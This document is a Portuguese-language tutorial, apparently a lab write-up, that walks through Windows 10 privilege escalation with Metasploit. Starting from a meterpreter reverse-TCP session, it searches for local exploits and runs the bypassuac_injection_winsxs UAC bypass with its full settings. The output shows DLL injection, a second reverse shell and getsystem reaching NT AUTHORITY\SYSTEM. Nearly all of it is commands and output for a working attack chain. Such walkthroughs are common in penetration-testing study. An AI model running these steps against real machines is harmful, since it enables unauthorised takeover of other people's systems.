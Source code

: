 ## Escalando Privilégio

Não existe uma 'receita' definitiva, srá necessário testar  vários scripts até obter sucesso.

Nesta fase, supõe-se que já temos acesso a máquina alvo através do meterpreter. Neste exemplo na porta 4444.

```
$ msfconsole
Metasploit tip: Enable HTTP request and response logging with set HttpTrace 
true

Metasploit Documentation: https://docs.metasploit.com/

msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp

msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp

msf6 exploit(multi/handler) > set LHOST 192.168.1.10
LHOST => 192.168.1.10

msf6 exploit(multi/handler) > run
[*] Started reverse TCP handler on 192.168.1.10:4444 
[*] Sending stage (203846 bytes) to 192.168.1.38
[*] Meterpreter session 1 opened (192.168.1.10:4444 -> 192.168.1.38:49765) at 2025-09-04 09:59:18 -0300

meterpreter > 
```
## Pesquisa do exploit

Neste momento, temos acesso a uma conta de usuério
```
meterpreter > getuid
Server username: WIN10\user

meterpreter > sysinfo
Computer        : WIN10
OS              : Windows 10 22H2+ (10.0 Build 19045).
Architecture    : x64
System Language : pt_BR
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
```
O objetivo é escalar para uma conta com privilégios de sistema.

O primeiro passo é colocar a sessão do meterpreter em 'espera', e retonar ao prompt do metasploit.
```
meterpreter > background
[*] Backgrounding session 1...
msf6 exploit(multi/handler) > show sessions

Active sessions
===============

  Id  Name  Type                     Information         Connection
  --  ----  ----                     -----------         ----------
  1         meterpreter x64/windows  WIN10\user @ WIN10  192.168.1.10:4444 -> 192.168.1.38:49765
                                                          (192.168.1.38)

msf6 exploit(multi/handler) > 
```
E procurar por exploits que escale privilégios. Exemplos:

* A build é de outubro de 2022, pode-se procurar exploits desse ano.
  ```
  msf6 exploit(multi/handler) > search 2022
  ``` 
  Alguns exploits candidatos:
  | # | Name | Rank | Check | Description |
  |---|------|------|-------|-------------|
  | 47 |  exploit/windows/local/cve_2022_21999_spoolfool_privesc 2022-02-08 | normal |   Yes |   CVE-2022-21999 SpoolFool Privesc |
  |233 | exploit/windows/local/cve_2022_26904_superprofile 2022-03-17 | excellent |      Yes | User Profile Arbitrary Junction Creation Local Privilege Elevation |

  *observe 'windows/local'*
* Procure por 'bypassuac'.
  ```
  msf6 exploit(multi/handler) > search bypassuac
  ```
  Alguns exploits candidatos:
  | # | Name | Rank | Check | Description |
  |---|------|------|-------|-------------|
  | 2 | exploit/windows/local/bypassuac 2010-12-31 |excellent | No | Windows Escalate UAC Protection Bypass|
  |5   exploit/windows/local/bypassuac_injection              2010-12-31       excellent  No     Windows Escalate UAC Protection Bypass (In Memory Injection)
  |8   exploit/windows/local/bypassuac_injection_winsxs       2017-04-06       excellent  No     Windows Escalate UAC Protection Bypass (In Memory Injection)
  | 11  exploit/windows/local/bypassuac_vbs                    2015-08-22       excellent  No     Windows Escalate UAC Protection Bypass (ScriptHost Vulnerability)
   12  exploit/windows/local/bypassuac_comhijack              1900-01-01       excellent  Yes    Windows Escalate UAC Protection Bypass (Via COM Handler Hijack)
   13  exploit/windows/local/bypassuac_eventvwr               2016-08-15       excellent  Yes    Windows Escalate UAC Protection Bypass (Via Eventvwr Registry Key)
   14    \_ target: Windows x86                               .                .          .      .
   15    \_ target: Windows x64                               .                .          .      .
   16  exploit/windows/local/bypassuac_sdclt                  2017-03-17       excellent  Yes    Windows Escalate UAC Protection Bypass (Via Shell Open Registry Key)
   17  exploit/windows/local/bypassuac_silentcleanup          2019-02-24       excellent  No     Windows Escalate UAC Protection Bypass (Via SilentCleanup)
   18  exploit/windows/local/bypassuac_dotnet_profiler        2017-03-17       excellent  Yes    Windows Escalate UAC Protection Bypass (Via dot net profiler)
   19  exploit/windows/local/bypassuac_fodhelper              2017-05-12       excellent  Yes    Windows UAC Protection Bypass (Via FodHelper Registry Key)
   20    \_ target: Windows x86                               .                .          .      .
   21    \_ target: Windows x64
   22  exploit/windows/local/bypassuac_sluihijack             2018-01-15       excellent  Yes    Windows UAC Protection Bypass (Via Slui File Handler Hijack)

## Seleção do Exploit

Após vária tentativas, o exploit que funcionou foi o **bypassuac_injection_winsxs**
```
msf6 > use exploit/windows/local/bypassuac_injection_winsxs
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
```
> Description:
> Description:
>  This module will bypass Windows UAC by utilizing the trusted publisher certificate through process injection. It will spawn a second shell that has the UAC flag turned off by abusing the way "WinSxS" works in Windows systems. This module uses the Reflective DLL Injection technique to drop only the DLL payload binary instead of three seperate binaries in the standard technique. However, it requires the correct architecture to be selected, (use x64 for SYSWOW64 systems also).

Configurando a arquitetura.
```
set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
```
```
msf6 exploit(windows/local/bypassuac_injection_winsxs) > set target 1
target => 1
```
Informando a sessão do meterpreter aberta
```
msf6 exploit(windows/local/bypassuac_injection_winsxs) > set SESSION 1
SESSION => 1
```
Informando a máquina de ataque (origem do ataque).
```
msf6 exploit(windows/local/bypassuac_injection_winsxs) > set LHOST 192.168.1.10
LHOST => 192.168.1.10
```
É preciso alterar a porta, uma vez que já temos uma outra sessão na porta 4444.
```
msf6 exploit(windows/local/bypassuac_injection_winsxs) > set LPORT 5555
LPORT => 5555
```
Verificando as configurações:
```
msf6 exploit(windows/local/bypassuac_injection_winsxs) > show options

Module options (exploit/windows/local/bypassuac_injection_winsxs):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION  1                yes       The session to run this module on


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none
                                        )
   LHOST     192.168.1.10     yes       The listen address (an interface may be specified)
   LPORT     5555             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Windows x64
```
Estamos prontos para a execução do exploit.

## Execução
```
msf6 exploit(windows/local/bypassuac_injection_winsxs) > run
[*] Started reverse TCP handler on 192.168.1.10:4444 
[+] Windows 10 version 22H2 may be vulnerable.
[*] UAC is Enabled, checking level...
[+] Part of Administrators group! Continuing...
[+] UAC is set to Default
[+] BypassUAC can bypass this setting, continuing...
[*] Creating temporary folders...
[*] Uploading the Payload DLL to the filesystem...
[*] Spawning process with Windows Publisher Certificate, to inject into...
[+] Successfully injected payload in to process: 4872
[*] Sending stage (203846 bytes) to 192.168.1.38
[+] All the dropped elements have been successfully removed
[*] Meterpreter session 2 opened (192.168.1.10:4444 -> 192.168.1.38:50574) at 2025-09-04 10:54:17 -0300

meterpreter > getuid
Server username: WIN10\user
meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > 
```
Ataque feito com sucesso, máquina alvo windows 10 22H2 invadida com privilégio de sistema.
